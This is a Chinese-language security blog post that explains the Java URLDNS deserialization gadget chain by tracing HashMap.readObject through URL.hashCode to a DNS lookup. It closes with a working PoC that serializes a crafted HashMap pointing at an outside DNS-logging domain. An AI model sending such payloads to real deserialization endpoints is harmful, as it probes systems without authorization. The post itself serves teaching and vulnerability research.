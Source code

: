 # URLDNS链详解


&lt;
!--more--&gt;


先来看一下如何序列化/反序列化
```java
package org.example;  
  
import java.io.*;  
  
public class App   
{  
    public static void main( String[] args ) throws Exception  
    {  
        user user = new user();  
        user.setName(&#34;xiaoming&#34;);  
        //序列化输出  
        ObjectOutputStream out = new ObjectOutputStream(System.out);  
        out.writeObject(user);  
        System.out.println();  
        // 序列化写入文件  
        FileOutputStream file = new FileOutputStream(&#34;test.bin&#34;);  
        ObjectOutputStream fout = new ObjectOutputStream(file);  
        fout.writeObject(user);  
        // 序列化写入到变量中  
        ByteArrayOutputStream bout = new ByteArrayOutputStream();  
        ObjectOutputStream jout = new ObjectOutputStream(bout);  
        jout.writeObject(user);  
        byte[] str = bout.toByteArray();  
        System.out.println(new String(str));  
        // 从变量中反序列化  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        user user_d = (user) ois.readObject();  
        System.out.println(user_d.getName());  
    }  
}  
  
class user implements Serializable{  
    private String name;  
  
    public user() {  
    }  
  
    public void setName(String name) {  
        this.name = name;  
    }  
  
    public String getName() {  
        return name;  
    }  
}
```
# URLDNS链详解
## 原理
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求
由HashMap 类`readObject`引起，
```java
private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
    reinitialize();  
  
    ObjectInputStream.GetField fields = s.readFields();  
  
    // Read loadFactor (ignore threshold)  
    float lf = fields.get(&#34;loadFactor&#34;, 0.75f);  
    if (lf &lt;= 0 || Float.isNaN(lf))  
        throw new InvalidObjectException(&#34;Illegal load factor: &#34; &#43; lf);  
  
    lf = Math.min(Math.max(0.25f, lf), 4.0f);  
    HashMap.UnsafeHolder.putLoadFactor(this, lf);  
  
    s.readInt();                // Read and ignore number of buckets  
    int mappings = s.readInt(); // Read number of mappings (size)  
    if (mappings &lt; 0) {  
        throw new InvalidObjectException(&#34;Illegal mappings count: &#34; &#43; mappings);  
    } else if (mappings == 0) {  
        // use defaults  
    } else if (mappings &gt; 0) {  
        float fc = (float)mappings / lf &#43; 1.0f;  
        int cap = ((fc &lt; DEFAULT_INITIAL_CAPACITY) ?  
                   DEFAULT_INITIAL_CAPACITY :  
                   (fc &gt;= MAXIMUM_CAPACITY) ?  
                   MAXIMUM_CAPACITY :  
                   tableSizeFor((int)fc));  
        float ft = (float)cap * lf;  
        threshold = ((cap &lt; MAXIMUM_CAPACITY &amp;&amp; ft &lt; MAXIMUM_CAPACITY) ?  
                     (int)ft : Integer.MAX_VALUE);  
  
        // Check Map.Entry[].class since it&#39;s the nearest public type to  
        // what we&#39;re actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);  
        @SuppressWarnings({&#34;rawtypes&#34;,&#34;unchecked&#34;})  
        Node&lt;K,V&gt;[] tab = (Node&lt;K,V&gt;[])new Node[cap];  
        table = tab;  
  
        // Read the keys and values, and put the mappings in the HashMap  
        for (int i = 0; i &lt; mappings; i&#43;&#43;) {  
            @SuppressWarnings(&#34;unchecked&#34;)  
                K key = (K) s.readObject();  
            @SuppressWarnings(&#34;unchecked&#34;)  
                V value = (V) s.readObject();  
            putVal(hash(key), key, value, false, false);  
        }  
    }  
}
```
在`HashMap`的键名计算了 hash，
`putVal(hash(key), key, value, false, false);`
跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)

调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)

这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)

`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)

这里调用了`getHostAddress`跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)

又调用了`java.net.URL`的`getHostAddress`方法
继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)

进入到`InetAddress.getByName(host);`便会触发`DNS`请求
继续回到`readObject()`中，看看如何给`key`赋值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)

`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key
HashMap#writeObject

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)

进入了`internalWriteEntries()`跟进查看

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)

这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值
构造完整poc
```java
package org.example;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.net.URL;  
import java.util.HashMap;  
  
  
public class URLDNS {  
    public static void main(String[] args) throws Exception {  
        HashMap hashmap = new HashMap();  
        URL url = new URL(&#34;http://47894df839.ipv6.1433.eu.org&#34;);  
        Field f = Class.forName(&#34;java.net.URL&#34;).getDeclaredField(&#34;hashCode&#34;);  
        f.setAccessible(true);  
        f.set(url,1);  
        hashmap.put(url,1);  
        f.set(url,-1);  
        ByteArrayOutputStream b = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(b);  
        oos.writeObject(hashmap);  
  
        byte[] str = b.toByteArray();  
        System.out.println(str);  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        ois.readObject();  
  
  
    }  
}
```
调用栈如下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)



---

> Author: [N1Rvana](https://nlrvana.github.io)  
> URL: https://nlrvana.github.io/posts/fdfad53/  

